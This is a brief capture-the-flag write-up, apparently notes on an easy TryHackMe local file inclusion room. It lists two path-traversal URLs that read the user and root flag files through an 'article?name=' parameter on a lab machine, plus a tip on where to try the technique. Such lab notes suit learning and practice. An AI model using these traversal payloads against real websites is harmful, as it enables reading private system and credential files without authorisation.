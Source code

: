 # 19. LFI 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**




## Gaining Access 😉

- LFI found on webpage
- just selected an article and injected lfi



## Maintaining Access 🥷
- 


## Important commands 🔥
1. user flag
```
http://10.10.231.130/article?name=../../../../../../../../../home/falcon/user.txt
```
2. root flag
```
http://10.10.231.130/article?name=../../../../../../../../../root/root.txt
```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- try lfi in `.php ` or `name=` or something elses


--------------------------------
**By Nibras Muhammed** 🤓🖥️






